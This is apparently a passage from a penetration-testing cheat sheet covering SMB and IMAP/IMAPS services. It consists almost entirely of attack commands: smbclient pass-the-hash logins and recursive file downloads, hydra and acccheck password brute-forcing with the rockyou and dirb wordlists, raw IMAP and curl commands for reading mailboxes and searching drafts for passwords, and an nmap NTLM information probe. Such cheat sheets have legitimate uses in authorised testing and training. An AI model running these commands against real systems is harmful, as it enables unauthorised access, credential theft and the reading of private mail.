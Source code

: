 ```bash list shares
smbclient //$IP/Share -U user --pw-nt-hash $hash -W $domain

# download files recursively
smbclient '\\\\$IP\\share' -N -c 'prompt OFF ; recurse ON ; cd "where\from" ; lcd "where/to" ; mget *'
```
```bash authentication bruteforce
hydra -L user.txt -P pass.txt $IP smb
acccheck -t $IP -v -u user -P /usr/share/dirb/wordlist/common.txt
```

<br>

## Port 143/TCP,993/TCP - IMAP,IMAPS
```bash
nc -nv $IP 143
openssl s_client -connect $IP:993 -quiet
```
```bash GUI applications
evolution
thunderbird
```
```bash IMAP commands
# login
A1 LOGIN "username" "password"
# list folders/mailboxes
A1 LIST "" *
A1 LIST INBOX *
A1 LIST "Archive" *
# select a mailbox
A1 SELECT INBOX
# list messages
A1 FETCH 1:* (FLAGS)
A1 UID FETCH 1:* (FLAGS)
# view messages
A1 FETCH 2 body[text]
A1 FETCH 2 all
A1 UID FETCH 102 (UID RFC822.SIZE BODY.PEEK[])
```
```bash view and download messages with curl
# view
curl -k 'imaps://$IP/' --user user:pass
curl -k 'imaps://$IP/inbox_name?ALL' --user user:pass 
curl -k 'imaps://1.2.3.4/Drafts?TEXT password' --user user:pass
# download
curl -k 'imaps://1.2.3.4/Drafts;MAILINDEX=1' --user user:pass
```
```bash NTLM auth info disclosure
nmap -p 143,993 --script imap-ntlm-info $IP -oN recon/nmap.imap-ntlm
```
```bash bruteforce passwords
hydra -I -V -F -l user -P /usr/share/wordlists/rockyou.txt $IP imap 
hydra -S -V -l user -P /usr/share/wordlists/rockyou.txt -s 993 $IP imap
```
